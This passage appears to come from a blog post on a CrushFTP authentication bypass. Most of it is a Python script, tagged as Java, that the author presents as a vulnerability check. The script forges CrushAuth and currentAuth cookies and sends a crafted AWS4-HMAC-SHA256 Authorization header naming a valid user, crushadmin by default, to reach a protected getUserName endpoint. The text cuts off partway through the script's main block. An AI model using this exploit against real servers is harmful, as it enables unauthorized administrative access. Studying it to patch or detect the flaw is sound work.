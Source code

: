 Now that is done, I created a quick python script which accepts the URL and performs the check on the remote host whether to see if it is vulnerable or not:

```java
import time
import requests
import argparse
from random import choice
from urllib.parse import urlparse

class CrushFTPAuthBypassExploit:
    def __init__(self, target_url, valid_username):
        """
        Initialize the exploit for CrushFTP
        
        :param target_url: The CrushFTP server endpoint
        :param valid_username: A valid CrushFTP username to exploit
        """
        self.target_url = target_url
        self.username = valid_username

    def exploit(self):
        """
        Attempt to exploit the CrushFTP authentication bypass
        
        :return: Response details
        """
        chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
        crushAuth = str(int(time.time())) + "_" + "".join([choice(chars) for _ in range(30)])
        currentAuth = crushAuth[-4:]
        cookies = {"CrushAuth": crushAuth, "currentAuth": currentAuth}
        headers = {
            'Authorization': f"AWS4-HMAC-SHA256 Credential={self.username}/",
            'Host': urlparse(self.target_url).hostname,
        }
        
        # Attempt to access a protected resource
        target_url = f"{self.target_url}/WebInterface/function/?command=getUserName&format=JSONOBJ&c2f=" + currentAuth
        try:
            response = requests.post(target_url, headers=headers,cookies=cookies, verify=False)
            return {
                'status_code': response.status_code,
                'response_text': response.text,
            }
        except Exception as e:
            return {
                'error': str(e)
            }

if __name__ == "__main__":
    # Set up argument parsing for target URL and username
    parser = argparse.ArgumentParser(description="Run the CrushFTP authentication bypass exploit.")
    parser.add_argument('target_url', type=str, help="Target URL of the CrushFTP server (e.g., http://localhost:8080)")
    parser.add_argument('--valid_username', type=str, default="crushadmin", help="A known valid username on the target system (default: crushadmin)")

    # Parse arguments
    args = parser.parse_args()
    
    # Run the exploit with the provided arguments
    exploit = CrushFTPAuthBypassExploit(
    target_url=args.target_url,
```